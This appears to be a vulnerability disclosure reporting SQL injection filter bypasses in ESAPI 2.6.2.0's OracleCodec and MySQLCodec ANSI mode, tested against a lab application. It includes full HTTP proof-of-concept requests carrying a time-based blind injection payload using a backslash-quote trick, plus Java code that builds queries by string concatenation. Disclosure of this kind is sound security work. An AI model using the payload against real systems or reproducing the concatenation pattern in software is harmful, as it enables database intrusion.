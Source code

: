 BUG_Author

Longlong Gong

# Project

Address: [esapi](https://github.com/ESAPI/esapi-java-legacy)

## 1、SQL injection filtering bypass

###  1.1、oracleCodec encodeForSQL bypass

[Affected version]

v2.6.2.0



[Affected Component]

```
Codec<Character> oracleCodec = new OracleCodec();
```



[Software]

https://github.com/ESAPI/esapi-java-legacy/archive/refs/tags/esapi-2.6.2.0.zip

give an example：https://github.com/whgojp/JavaSecLab



[Description]

When using Oracle's codec OracleCodex and ESAPI library for encoding in ESAPI2.6.2.0 components, SQL injection can be bypassed. Attackers can exploit this vulnerability to bypass SQL injection and launch SQL injection attacks

POC

```
GET /sqli/jdbc/safe5?id=1%5c'+and+if(1=1,sleep(5),1)--+&type=select&_=1749041001677 HTTP/1.1
Host: 192.168.1.184:33334
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36 Edg/137.0.0.0
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Referer: http://192.168.1.184:33334/sqli/jdbc/jdbcSafe
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1742043310; Hm_lvt_0febd9e3cacb3f627ddac64d52caac39=1747873860; JSESSIONID=840F4C6A21E8E88DF303E95A5BF7176A
Connection: keep-alive


```

Based on the JavaSeclab project that references ESAPI2.2.0.0, there have been no changes to the code in key areas of 2.6.2.0

![image-20250604203837348](assets/image-20250604203837348.png)

Go to SQL Injection ->JDBC ->Security Scenarios ->Web Security Framework, first enter 1 for querying, and then use id=1% 5c '+and+if (1=1,1,1) for the data packet payload--+

![image-20250604204352340](assets/image-20250604204352340.png)

You can see that the result is returned quickly without using the sleep function

![image-20250604204935285](assets/image-20250604204935285.png)

Next, we use the sleep function and can see that the database has executed the sleep function

![image-20250604204503427](assets/image-20250604204503427.png)

Let's follow the code and find that when passed in, it adds a back slash and a single quotation mark

![image-20250604204622028](assets/image-20250604204622028.png)

![image-20250604204706044](assets/image-20250604204706044.png)

After being encoded as a character, it became two single quotes, but the first one was commented as a regular character with a back slash, so it was bypassed

![image-20250604204812000](assets/image-20250604204812000.png)

You can see the last executed statement below

![image-20250604204837224](assets/image-20250604204837224.png)

Let's take a look at the latest code below

![image-20250604205026984](assets/image-20250604205026984.png)

![image-20250604205349843](assets/image-20250604205349843.png)

###  1.2、MySQLCodec ANSI encodeForSQL bypass

[Affected version]

v2.6.2.0



[Affected Component]

```
Codec<Character> mysqlCodec = new MySQLCodec(MySQLCodec.Mode.ANSI);
```



[Software]

https://github.com/ESAPI/esapi-java-legacy/archive/refs/tags/esapi-2.6.2.0.zip

give an example：https://github.com/whgojp/JavaSecLab



[Description]

When using MySQL codec's ANSI mode and ESAPI library for encoding in ESAPI2.6.2.0 components, SQL injection defense can be bypassed. Attackers can exploit this vulnerability to bypass SQL injection defense and launch SQL injection attacks

POC

```
GET /sqli/jdbc/safe5?id=1%5c'+and+if(1=1,sleep(5),1)--+&type=select&_=1749041001677 HTTP/1.1
Host: 192.168.1.184:33334
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36 Edg/137.0.0.0
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Referer: http://192.168.1.184:33334/sqli/jdbc/jdbcSafe
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1742043310; Hm_lvt_0febd9e3cacb3f627ddac64d52caac39=1747873860; JSESSIONID=840F4C6A21E8E88DF303E95A5BF7176A
Connection: keep-alive


```

Based on the JavaSeclab project that references ESAPI2.2.0.0, there have been no changes to the code in key areas of 2.6.2.0

Let's first modify the code to make it compatible with the MySQL engine

```java
Codec<Character> mysqlCodec = new MySQLCodec(MySQLCodec.Mode.ANSI);
Class.forName("com.mysql.cj.jdbc.Driver");
Connection conn = DriverManager.getConnection(dbUrl, dbUser, dbPass);

Statement stmt = conn.createStatement();
String sql = "select * from sqli where id = '" + ESAPI.encoder().encodeForSQL(mysqlCodec, id) + "'";
```

Go to SQL Injection ->JDBC ->Security Scenarios ->Web Security Framework, first enter 1 for querying, and then use id=1% 5c '+and+if (1=1,1,1) for the data packet payload--+

![image-20250604211139210](assets/image-20250604211139210.png)

![image-20250604211040745](assets/image-20250604211040745.png)

![image-20250604211105855](assets/image-20250604211105855.png)

Let's take a look at the latest code below

![image-20250604211504702](assets/image-20250604211504702.png)

![image-20250604211322503](assets/image-20250604211322503.png)

![image-20250604211550119](assets/image-20250604211550119.png)
